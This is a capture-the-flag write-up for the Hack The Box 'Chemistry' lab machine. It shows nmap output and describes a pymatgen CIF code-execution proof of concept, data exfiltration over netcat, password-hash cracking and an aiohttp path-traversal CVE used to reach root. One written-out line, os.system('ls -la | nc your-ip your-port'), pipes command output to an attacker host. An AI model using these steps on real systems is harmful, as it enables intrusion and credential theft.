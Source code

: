 This is a writeup for recently expired chemistry machine in Hackthebox platform.

### Part 1: Finding Foothold

l started scanning with nmap:

```
# Nmap 7.94SVN scan initiated Fri Oct 25 05:33:29 2024 as: nmap -sC -sV -p- -T4 -oN chemistry_nmap.txt 10.10.11.38
Warning: 10.10.11.38 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.38
Host is up (0.32s latency).
Not shown: 65141 closed tcp ports (conn-refused), 392 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 00:16:14 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>

```

I can see website hosted on port 5000 , opening the site provide us with login form and after registering it redirects us to `/dashboard` where we can upload '.cif' file.

i checked for vulnerability in login and register section but i couldn't find anything, so as there as file upload functionality i begin to attack it.
quickly researching 'cif exploit' leads me to:
[POC Writeup](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

I can execute arbitrary code using this exploit.I modified POC slightly to check if it works or not:

![NMAP](/static/writeups/HTB-S-VI/chemistry/6.png)

changed "touch pwned" to "nc your-ip your-port"
and open netcat listener and upload it via upload functionality.

Attack succeds, getting reverse shell is difficult so,now lets keep changing POC slightly each time to execute different command according to our needs.

executing `("os").system ("ls -la | nc your-ip your-port")` shows different directory and files in `/home/app` directory.

going through each file i found database.db file in /home/app/instance directory which seems interesting. i downloaded it using nc and reading it using string: `string database.db`, i can see hashes and username of different user.

when i was executing above exploit i notice username `rosa` in `/home` directory which is also present in database.db.

i ran hashid to identify hash and hashcat to crack it.

![NMAP](/static/writeups/HTB-S-VI/chemistry/1.png)

so, now with password and username, i successfully ssh into machine and got user flag
:

![NMAP](/static/writeups/HTB-S-VI/chemistry/2.png)

### Part 2: Root Flag

We already got user and user flag. now, to get root flag I looked for open ports using:
ss -tunlp

![NMAP](/static/writeups/HTB-S-VI/chemistry/3.png)

I found out another website was running locally in port 8080.
so, i forwarded port using ssh:

```
ssh -L myport:boxip:boxport user@boxip
```

I found out new website:

![NMAP](/static/writeups/HTB-S-VI/chemistry/4.png)

![NMAP](/static/writeups/HTB-S-VI/chemistry/5.png)

which was using aiohttp version 3.9.1, quick research shows me it is vulnerable to local file inclusion. [Github Link](https://github.com/z3rObyte/CVE-2024-23334-PoC)
so i looked at webpage source page and found `/assets` directory and made my exploit according to it (You can do it manually too):

![NMAP](/static/writeups/HTB-S-VI/chemistry/7.png)

by running it i found root flag.

cheers!!
